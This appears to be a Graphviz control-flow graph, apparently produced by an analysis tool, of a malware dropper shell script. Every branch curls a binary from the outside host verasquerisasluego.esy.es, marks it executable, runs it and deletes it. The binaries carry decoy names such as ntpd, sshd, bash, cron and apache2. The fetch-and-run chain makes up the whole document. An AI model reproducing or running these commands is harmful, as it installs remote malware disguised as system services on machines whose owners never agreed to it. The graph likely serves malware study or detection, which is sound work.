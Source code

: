 digraph {
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 10 [label="||,"];
10 [label="curl http://verasquerisasluego.esy.es/Bt/ntpd --output ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 28 [label="||,"];
28 [label="curl http://verasquerisasluego.esy.es/Bt/sshd --output sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 46 [label="||,"];
46 [label="curl http://verasquerisasluego.esy.es/Bt/openssh --output openssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x openssh "];
48 -> 50 [label=";,"];
50 [label="./openssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf openssh "];
52 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 64 [label="||,"];
64 [label="curl http://verasquerisasluego.esy.es/Bt/bash --output bash "];
64 -> 66 [label=";,"];
66 [label="chmod +x bash "];
66 -> 68 [label=";,"];
68 [label="./bash "];
68 -> 70 [label=";,"];
70 [label="rm -rf bash "];
70 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 82 [label="||,"];
82 [label="curl http://verasquerisasluego.esy.es/Bt/tftp --output tftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tftp "];
84 -> 86 [label=";,"];
86 [label="./tftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf tftp "];
88 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 100 [label="||,"];
100 [label="curl http://verasquerisasluego.esy.es/Bt/wget --output wget "];
100 -> 102 [label=";,"];
102 [label="chmod +x wget "];
102 -> 104 [label=";,"];
104 [label="./wget "];
104 -> 106 [label=";,"];
106 [label="rm -rf wget "];
106 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 118 [label="||,"];
118 [label="curl http://verasquerisasluego.esy.es/Bt/cron --output cron "];
118 -> 120 [label=";,"];
120 [label="chmod +x cron "];
120 -> 122 [label=";,"];
122 [label="./cron "];
122 -> 124 [label=";,"];
124 [label="rm -rf cron "];
124 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 136 [label="||,"];
136 [label="curl http://verasquerisasluego.esy.es/Bt/ftp --output ftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x ftp "];
138 -> 140 [label=";,"];
140 [label="./ftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf ftp "];
142 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 154 [label="||,"];
154 [label="curl http://verasquerisasluego.esy.es/Bt/pftp --output tftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x pftp "];
156 -> 158 [label=";,"];
158 [label="./pftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf pftp "];
160 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 172 [label="||,"];
172 [label="curl http://verasquerisasluego.esy.es/Bt/sh --output sh "];
172 -> 174 [label=";,"];
174 [label="chmod +x sh "];
174 -> 176 [label=";,"];
176 [label="./sh "];
176 -> 178 [label=";,"];
178 [label="rm -rf sh "];
178 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 190 [label="||,"];
190 [label="curl http://verasquerisasluego.esy.es/Bt/apache2 --output apache2 "];
190 -> 192 [label=";,"];
192 [label="chmod +x apache2 "];
192 -> 194 [label=";,"];
194 [label="./apache2 "];
194 -> 195 [label=";,"];
}
